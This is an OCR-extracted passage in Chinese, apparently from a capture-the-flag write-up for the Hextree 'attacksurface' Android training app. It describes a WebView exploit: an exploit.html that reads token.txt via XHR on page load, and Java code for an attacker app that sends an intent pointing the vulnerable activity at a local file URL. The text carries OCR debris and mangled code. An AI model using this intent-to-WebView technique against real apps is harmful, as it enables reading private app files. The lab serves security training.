   
该脚本在页面加载（事件）时执行。  
  
- 它发出  
**XHR 请求**  
来检索的内容  

```
token.txt
```

  
。  
  
- 一旦加载，它  
**会修剪**  
响应并将其发送到  

```
authCallback()
```

  
，从而触发成功条件。  
  
将此有效载荷保存为  

```
exploit.html
```

  
应用程序的内部存储：file:///data/data/io.hextree.attacksurface/files/exploit.html  
# 2. 部署攻击  
  
为了启动漏洞利用，我们需要创建一个  
**攻击应用程序**  
，向易受攻击的 WebView 活动发送意图，指示它加载我们的恶意 HTML 文件。  
## 漏洞利用应用程序代码：  

```
    @Override 
    protected  void  onCreate (Bundle savedInstanceState) { 
        super .onCreate (savedInstanceState); 

        Intent  intent  =  new  Intent (); 
        intent.setClassName( &#34;io.hextree.attacksurface&#34; , 
                &#34;io.hextree.attacksurface.webviews.Flag40WebViewsActivity&#34; ); 
        StringexploitUrl  = &#34;file:///data/data/io.hextree.attacksurface/files/exploit.html&#34; ;         intent.putExtra( &#34;URL&#34; ,exploitUrl);         startActivity(intent);     }  
```

## 工作原理：  
1. 该应用程序通过指定其包和类名  
**来定位易受攻击的 WebView 活动。**  
  